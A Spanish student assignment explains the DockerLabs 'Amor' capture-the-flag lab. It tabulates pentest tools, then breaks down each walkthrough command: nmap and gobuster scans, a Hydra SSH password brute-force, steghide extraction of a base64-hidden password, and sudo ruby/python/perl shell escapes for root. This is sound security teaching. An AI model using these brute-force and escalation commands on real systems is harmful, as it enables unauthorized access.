

<h1 align="center">TALLER INDIVIDUAL</h1>
  

  

<h2 align="center">Descripción Ejercicio Práctico Dockerlab "AMOR"</h2>
<h3 align="left">MY. MANUEL RICARDO REY RIOS</h3>
 

## ***1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.***
  

| Herramienta          | Definición                                                                                                                                           | Funcionalidad   Principal                                                                                                                                                     | Casos de Uso                                                                                                                                                                                                                                           |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Nmap                 | (Network   Mapper) Es un escáner de seguridad y herramienta de descubrimiento de redes,   fundamental en la fase de reconocimiento.                  | Realiza   un mapeo de la red, identificando hosts activos, puertos abiertos, servicios   en ejecución, versiones de software y sistemas operativos.                           |         - Reconocimiento y Mapeo: Identificar la topología y   los dispositivos de una red.- Auditoría de Puertos: Detectar vulnerabilidades   al encontrar servicios no autorizados.                                                                  |
| Netdiscover          | Herramienta   de descubrimiento de redes pasiva y activa que utiliza el protocolo ARP para   escanear hosts en una red local.                        | Identifica   hosts activos en una red LAN y recopila su dirección IP y MAC. Es clave en el   reconocimiento de la red.                                                        |         - Escaneo de Red Local: Mapear rápidamente todos los   dispositivos conectados a la misma red.- Análisis Forense: Detectar hosts   desconocidos o no autorizados.                                                                              |
| Gobuster             | Herramienta   para la enumeración de sitios web. Está diseñada para realizar ataques de   fuerza bruta contra directorios y archivos, y subdominios. | Busca   recursos ocultos en servidores web (como directorios de administración o   archivos de respaldo) utilizando listas de palabras.                                       |         - Enumeración Web: Descubrir rutas de acceso que no   están públicamente enlazadas, crucial en la fase de reconocimiento activo.                                                                                                               |
| Hydra                | Herramienta   de fuerza bruta y por diccionario, una de las más potentes para adivinar   credenciales de autenticación.                              | Automatiza   la prueba de credenciales contra múltiples servicios de red, como SSH, FTP o   Telnet.                                                                           |         - Pruebas de Pentesting: Auditar la robustez de las   contraseñas en los servicios de una red.                                                                                                                                                 |
| SCP                  | Protocolo   de copia segura de archivos. Permite la transferencia cifrada de archivos   entre hosts.                                                 | Copiar   archivos de forma segura. Se utiliza para descargar archivos comprometidos o   para subir exploits a un host remoto.                                                 |         - Transferencia de Archivos: Mover datos o   herramientas entre máquinas de forma segura tras obtener acceso.                                                                                                                                  |
| Steghide             | Herramienta   de esteganografía que permite incrustar datos ocultos en archivos de imagen   (JPEG, BMP) o audio (WAV, AU).                           | Ocultar   información secreta dentro de un archivo de imagen o audio de forma casi   imperceptible.                                                                           |         - Exfiltración de Datos: Transferir información   sensible sin ser detectado.- Análisis Forense: Extraer datos ocultos de un   archivo sospechoso.                                                                                             |
| Metasploit Framework | Una   de las plataformas de código abierto más importantes para el desarrollo y   ejecución de exploits y cargas útiles.                             | Proporciona   una base de datos de vulnerabilidades, exploits y payloads, permitiendo a los   testers de penetración validar vulnerabilidades y obtener acceso a sistemas.    |         - Explotación: Aprovechar vulnerabilidades conocidas   en servicios o sistemas.- Post-Explotación: Realizar movimientos laterales,   recolección de credenciales y escalada de privilegios una vez que se ha   ganado el acceso inicial.       |
| Hashcat              | Es   un password cracker extremadamente rápido y flexible, optimizado para   utilizar el poder de las tarjetas gráficas (GPU).                       | Se   utiliza para descifrar contraseñas almacenadas en forma de hashes. Soporta   una gran variedad de algoritmos de hashing.                                                 |         - Análisis Forense y Pentesting: Descifrar hashes de   contraseñas de sistemas comprometidos, a menudo obtenidos de archivos de   credenciales como /etc/shadow.                                                                               |
| Docker               | Plataforma   de virtualización ligera que utiliza contenedores para aislar aplicaciones y   sus dependencias.                                        | Permite   crear entornos de trabajo portátiles y aislados, ideales para desplegar   laboratorios de prueba o para ejecutar herramientas de forma segura.                      |         - Laboratorios de Pentesting: Desplegar rápidamente   entornos de máquinas vulnerables o servicios.- Análisis de Malware: Ejecutar   código malicioso en un entorno seguro y aislado.                                                          |
| TheHarvester         | Herramienta   simple pero potente para la recolección de información de fuentes abiertas   (OSINT).                                                  | Reúne   correos electrónicos, nombres de host, subdominios, nombres de empleados y   otra información de inteligencia de fuentes públicas como buscadores y bases   de datos. |         - Fase de Reconocimiento: Recopilar datos sobre una   organización o un objetivo para crear un perfil detallado de la superficie de   ataque. 

  

## ***2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.***
 
# Comandos Usados y su desglose

1. `ip a o ip add`

**Función:** Muestra todas las interfaces de red del sistema.

**Desglose:**
* `ip`: herramienta para gestión de red.
* `a` o `addr`: alias de address, lista direcciones IP asignadas.

**Variantes:**
* `ifconfig` (obsoleto, pero aún útil).
* `ip link` (muestra solo los enlaces).
* `ip route` (muestra rutas de red).

2. `sudo netdiscover -i docker0 -r 172.17.0.0/24`

**Función:** Descubre dispositivos en una red usando ARP.

**Desglose:**
* `sudo`: ejecuta con privilegios de administrador.
* `netdiscover`: herramienta de descubrimiento ARP.
* `-i docker0`: especifica la interfaz de red Docker.
* `-r 172.17.0.0/24`: rango de IP a escanear.

**Variantes:**
* `netdiscover -r 192.168.1.0/24` (sin interfaz).
* `arp-scan -l` (alternativa).
* `nmap -sn 172.17.0.0/24` (también detecta hosts activos).

3. `sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2`

**Función:** Escaneo de puertos y detección de servicios.

**Desglose:**
* `--min-rate 5000`: velocidad mínima de paquetes.
* `-p-`: escanea todos los puertos (1–65535).
* `-sS`: escaneo SYN (stealth scan).
* `-sV`: detección de versiones.

**Variantes:**
* `nmap -T4 -A 172.17.0.2` (detección agresiva).
* `nmap -Pn -p 22,80 172.17.0.2` (puertos específicos).
* `nmap --script vuln 172.17.0.2` (detección de vulnerabilidades).

4. `gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Función:** Enumeración de directorios en aplicaciones web.

**Desglose:**
* `gobuster`: herramienta de fuerza bruta de directorios.
* `dir`: modo de enumeración de directorios.
* `-u`: URL del sitio objetivo.
* `-w`: diccionario de palabras a usar.

**Variantes:**
* `gobuster dns -d example.com -w wordlist.txt`
* `gobuster fuzz -u http://172.17.0.2/FUZZ -w lista.txt`
* `dirb http://172.17.0.2` (alternativa).

5. `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

**Función:** Fuerza bruta de credenciales en servicios.

**Desglose:**
* `-l carlota`: usuario objetivo.
* `-P rockyou.txt`: diccionario de contraseñas.
* `ssh://...`: protocolo y objetivo.
* `-t 10`: hilos de ejecución.

**Variantes:**
* `hydra -L users.txt -P pass.txt ssh://IP`
* `hydra -s 2222 -l user -P pass.txt ssh://IP` (puerto custom).
* `medusa -U user.txt -P pass.txt -M ssh -h IP` (alternativa).

6. `ssh carlota@172.17.0.2`

**Función:** Conexión remota vía protocolo SSH.

**Desglose:**
* `ssh`: comando de conexión segura.
* `carlota@IP`: usuario y dirección del host.

**Variantes:**
* `ssh -p 2222 user@IP` (puerto alternativo).
* `ssh -i key.pem user@IP` (clave privada).
* `sftp user@IP` (acceso seguro a archivos).

7. `cd /home/carlota/Desktop/fotos/vacaciones`

**Función:** Navegar al directorio específico.

**Desglose:**
* `cd`: cambia de directorio.

**Variantes:**
* `cd ~` (home del usuario).
* `cd ..` (subir un nivel).
* `cd -` (último directorio).

8. `scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor`

**Función:** Copia segura de archivos entre hosts.

**Desglose:**
* `scp`: copia sobre SSH.
* `origen`: ruta remota.
* `destino`: ruta local.

**Variantes:**
* `scp -P 2222 file user@host:/path`
* `scp user@host:/file ./`
* `rsync -avz -e ssh file user@host:/path`

9. `file imagen.jpg`

**Función:** Detecta el tipo de archivo.

**Desglose:**
* `file`: analiza y determina el tipo.

**Variantes:**
* `file *` (todos los archivos del directorio).
* `stat archivo` (más detalles).
* `exiftool archivo.jpg` (metadatos, si aplica).

10. `steghide --extract -sf imagen.jpg`

**Función:** Extrae información oculta en imágenes/audio.

**Desglose:**
* `--extract`: extraer datos.
* `-sf`: archivo fuente.

**Variantes:**
* `steghide info archivo.jpg`
* `steghide embed -cf imagen.jpg -ef secreto.txt`
* `zsteg archivo.png` (alternativa para PNG).

11. `echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo`

**Función:** Decodifica cadenas codificadas en base64.

**Desglose:**
* `echo`: imprime la cadena.
* `| base64 -d`: la decodifica.

**Variantes:**
* `base64 archivo -d`
* `echo texto | base64` (codifica).
* `openssl base64 -d` (alternativa).

12. `su oscar`

**Función:** Cambia al usuario oscar.

**Desglose:**
* `su`: switch user.
* `oscar`: nuevo usuario.

**Variantes:**
* `su - oscar` (inicia sesión completa).
* `sudo su -` (como root).
* `login oscar` (desde terminal login).

13. `sudo -l`

**Función:** Verifica qué comandos puede ejecutar un usuario con sudo.

**Desglose:**
* `sudo`: ejecución con privilegios.
* `-l`: lista privilegios.

**Variantes:**
* `sudo -u usuario comando`
* `sudo -s` (abre shell root).
* `sudoedit archivo` (edita con privilegios).

14. `sudo /usr/bin/ruby -e 'exec "/bin/bash"'`

**Función:** Escala privilegios usando Ruby para ejecutar bash.

**Desglose:**
* `/usr/bin/ruby`: ejecutable de ruby.
* `-e`: permite ejecutar código Ruby desde línea de comandos.
* `'exec "/bin/bash"'`: inicia una shell bash.

**Variantes:**
* `sudo /bin/sh`
* `sudo python -c 'import os; os.system("/bin/bash")'`
* `sudo perl -e 'exec "/bin/bash"'`

15. `whoami`

**Función:** Muestra el nombre del usuario actual.

**Desglose:**
* `whoami`: “¿quién soy yo?”.

**Variantes:**
* `id` (más detalles del usuario).
* `echo $USER`
* `logname` (usuario que inició sesión).

# ***3. Realice un diagrama de flujo de todo el procedimiento realizado.***

# Reto Amor - Diagrama de Flujo

